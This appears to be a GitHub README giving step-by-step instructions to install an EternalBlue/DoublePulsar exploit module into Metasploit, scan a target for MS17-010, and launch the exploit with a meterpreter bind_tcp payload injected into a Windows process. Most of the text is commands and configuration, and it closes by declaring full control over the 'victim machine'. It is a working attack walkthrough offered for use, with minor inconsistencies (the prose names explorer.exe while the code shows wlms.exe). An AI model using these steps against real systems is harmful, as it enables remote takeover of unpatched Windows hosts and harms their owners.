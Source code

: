 # Eternalblue-Doublepulsar-Metasploit

| THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

We need to download and add the Scanner and exploit to Metasploit. Open your Terminal windows and Type following commands.

Move file smb_ms17_010.rb under the folder usr/share/metasploit-framework/modules/auxiliary/scanner/smb

~~~
sudo cp smb_ms17_010.rb usr/share/metasploit-framework/modules/auxiliary/scanner/smb
~~~

And then you should copy Eternal Blue-Doublepulsar.rb and debs to under usr/share/metasploit-framework/modules/exploits/windows/smb

~~~
sudo cp eternalblue_doublepulsar.rb usr/share/metasploit-framework/modules/exploits/windows/smb
sudo cp -r deps usr/share/metasploit-framework/modules/exploits/windows/smb
~~~

Now Open the Eternal Blue-Doublepulsar.rb with any Editor and change the path directory for ETERNALBLUE and DOUBLEPULSAR to smb exploit directory usr/share/metasploit-framework/modules/exploits/windows/smb.
~~~
sudo nano /usr/share/metasploit-framework/modules/exploits/windows/smb/eternalblue_doublepulsar.rb
~~~
~~~
	register_options([
		OptEnum.new('TARGETARCHITECTURE', [true,'Target Architecture','x86',['x86','x64']]),
		OptString.new('ETERNALBLUEPATH',[true,'Path directory of Eternalblue','/usr/share/metasploit-framework/modules/exploits/windows/smb/']),
		OptString.new('DOUBLEPULSARPATH',[true,'Path directory of Doublepulsar','/usr/share/metasploit-framework/modules/exploits/windows/smb/']),
		OptString.new('WINEPATH',[true,'WINE drive_c path','/root/.wine/drive_c/']),
		OptString.new('PROCESSINJECT',[true,'Name of process to inject into (Change to lsass.exe for x64)','wlms.exe'])
	], self.class)
~~~

Also Read  NSA Malware “EternalBlue” Successfully Exploit and Port into Microsoft Windows 10

Then we should specify the name of the process to be injected, we have specified here as 'explorer.exe'

Then you should launch msfconsole and use the auxiliary scan module  smb_ms17_010.rb.
~~~
    dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v6.1.32-dev                          ]
+ -- --=[ 2205 exploits - 1168 auxiliary - 395 post       ]
+ -- --=[ 600 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to
check out the result of hosts and services

msf > use auxiliary/scanner/smb/smb_ms17_010
msf > show options
~~~

Now you should setup RHOSTS IP which is the Victims Ip address.
~~~
msf > set RHOSTS IP
msf > run
~~~

It will go and check whether the host is vulnerable or not and also display the victim machine details.

Now we can move to the exploit EternalBlue & Double Pulsar                                             
~~~
msf > use exploit/windows/smb/eternalblue_doublepulsar
msf > set payload windows.x64/meterpreter/bind_tcp
msf > show options
~~~

Then set a target architecture and then RHOST Victim IP address.
~~~
msf > setRHOST IP
msf > set targetarchitecture x64
msf > show options
~~~

And then type exploit and hit enter.

It’s done now we have got the meterpreter session and the vulnerability has been exploited.

Now the system has been exploited successfully and we have full control over the victim machine now.